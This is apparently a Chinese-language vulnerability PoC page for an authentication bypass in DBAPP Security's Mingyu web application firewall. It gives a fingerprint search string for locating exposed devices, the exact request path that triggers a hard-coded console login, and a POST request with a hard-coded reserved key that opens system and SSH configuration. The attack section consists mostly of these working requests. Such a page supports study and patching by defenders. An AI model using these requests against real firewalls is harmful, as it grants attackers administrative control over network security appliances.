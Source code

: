 # 

# 安恒 明御WEB应用防火墙 report.php 任意用户登录漏洞

## 漏洞描述

安恒 明御WEB应用防火墙 report.php文件存在硬编码设置的Console用户登录，攻击者可以通过漏洞直接登录后台

## 漏洞影响

```
安恒 明御WEB应用防火墙
```

## 网络测绘

```
app="安恒信息-明御WAF"
```

## 漏洞复现

登录页面

![image-20220824142132930](./images/202208241421007.png)

验证POC

```
/report.m?a=rpc-timed
```

![image-20220824142150382](./images/202208241421426.png)

再访问主页面跳转配置页面

![image-20220824142208002](./images/202208241422055.png)

发送请求包配置系统SSH等

```
POST /system.m?a=reserved
  
key=!@#dbapp-waf-dev-reserved#@!
```

![image-20220824142219609](./images/202208241422661.png)

